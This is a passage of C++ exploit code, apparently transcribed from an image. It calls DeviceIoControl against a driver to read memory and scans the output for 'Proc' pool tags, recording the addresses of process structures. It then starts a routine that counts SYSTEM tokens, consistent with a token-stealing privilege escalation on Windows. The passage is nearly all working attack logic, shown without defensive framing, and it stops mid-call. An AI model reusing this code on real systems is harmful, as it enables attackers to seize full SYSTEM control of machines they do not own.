 ```cpp
            output_buff,
            0x100c,
            &bytes_ret,
            NULL))
        {
            //cout << "[>] DeviceIoControl succeeded!\n";
        }

        iteration++;

        //DebugBreak();
        INT64 results_begin = ((INT64)output_buff + 0xc);
        for (INT64 i = 0; i < 0xF60; i = i + 0x10) {

            PINT64 proc_ptr = (PINT64)(results_begin + 0x4 + i);
            INT32 proc_val = *(PINT32)proc_ptr;

            if (proc_val == 0x636f7250) {

                for (INT64 x = 0; x < 0xA0; x = x + 0x10) {

                    PINT64 header_ptr = PINT64(results_begin + i + x);
                    INT32 header_val = *(PINT32)header_ptr;

                    if (header_val == 0x00B80003) {

                        proc_count++;
                        cout << "\r[>] Proc chunks found: " << dec <<
                            proc_count << flush;

                        INT64 temp_addr = input_buff.start_address + i;

                        // This address might not be page-aligned to 0x1000
                        // so find out how far off from a multiple of 
                        // 0x1000 we are. This value is stored in our 
                        // PROC_DATA struct in the page_entry_offset
                        // member.
                        INT64 modulus = temp_addr % 0x1000;
                        proc_data.page_entry_offset.push_back(modulus);

                        // This is the page-aligned address where, either
                        // small or large paged memory will hold our "Proc"
                        // chunk. We store this as our proc_address member
                        // in PROC_DATA.
                        INT64 page_address = temp_addr - modulus;
                        proc_data.proc_address.push_back(
                            page_address);
                        proc_data.header_size.push_back(x);
                    }
                }
            }
        }
    }
}

void parse_procs(PROC_DATA proc_data, HANDLE hFile) {

    int system_token_count = 0;
    DWORD bytes_ret = 0;
    DWORD num_of_bytes = 0x1000;

    LPVOID output_buff = VirtualAlloc(
        NULL,
```